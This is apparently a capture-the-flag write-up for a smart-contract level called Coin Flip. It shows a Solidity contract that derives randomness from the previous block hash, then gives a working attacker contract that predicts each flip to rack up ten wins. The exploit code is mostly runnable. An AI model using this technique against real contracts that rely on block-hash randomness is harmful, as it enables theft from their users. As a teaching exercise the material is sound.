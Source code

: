 # 03 Coin Flip


```
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To 
complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

```

#### Start 


### (1) `Make consecutiveWins = 10`


Looking at the code, you can see that the value consecutiveWins can be incremented when the `if (side == _guess)` condition

We can see that the code is calculating the side. From here we can write another contract to calculate the correct side and then call the fucntion flip with the correct side

```
 uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
 uint256 blockValue = uint256(blockhash(block.number - 1));
 lastHash = blockValue;
 uint256 coinFlip = blockValue / FACTOR;
 bool side = coinFlip == 1 ? true : false;

```

You can no longer use Open Developer Tools (F12) alone. I suggest you use remix to write code and deploy contracts

#### This is the code I used to attack the CoinFlip contract
```

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;


    interface CoinFlip {
        function flip(bool _guess) external returns (bool);
        function consecutiveWins() external view returns(uint256);
    }

    contract Hack {

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        function _getSide() private view returns(bool){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            return side;
        }
            
        

        function exploitCoinFlip(address _targetExploit) external {
                require( CoinFlip(_targetExploit).flip(_getSide()) == true,"false");
        }

        function getConsecutiveWins (address _targetExploit) view external returns (uint256) {
            return  CoinFlip(_targetExploit).consecutiveWins();
        }

    }

```
- `function _getSide() private view returns(bool)`

    This function to calculate the correct side and called by function `exploitCoinFlip`

- `function exploitCoinFlip(address _targetExploit) external`

    This function call function `flip` in the target CoinFlip contract to increment the value `consecutiveWins`

- `function getConsecutiveWins (address _targetExploit) view external returns (uint256)`

    This function just check the value `consecutiveWins` how much is it now

Use the remix deploy contract `Hack`  then call the function `exploitCoinFlip(address _targetExploit)` 10 times

Click button Submit instance and confirm transaction

# !!! we passed !!!


